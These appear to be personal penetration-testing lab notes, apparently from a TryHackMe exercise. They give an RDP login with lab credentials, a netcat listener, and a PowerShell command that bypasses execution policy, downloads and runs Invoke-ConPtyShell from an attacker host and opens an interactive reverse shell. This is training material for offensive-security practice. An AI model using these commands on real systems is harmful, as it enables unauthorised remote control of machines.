 ![](../../attachment/44cf1ad4e9c32337ea7cb20781c98d7e.png)

### xFreeRDP

```bash
xfreerdp /u:thm-unpriv /p:Password321 /v:10.10.122.116 /size:1800x900
```

### ConPtyShell

> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#fully-interactive-reverse-shell-on-windows

**Fully Interactive reverse shell**

Listner

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 1111
```

Execute on target

```bash
powershell -nop -ep bypas -C "IEX (new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.11.19.145 1111"
```

^e30527

If `net.webclient` did not work, try `IWR`
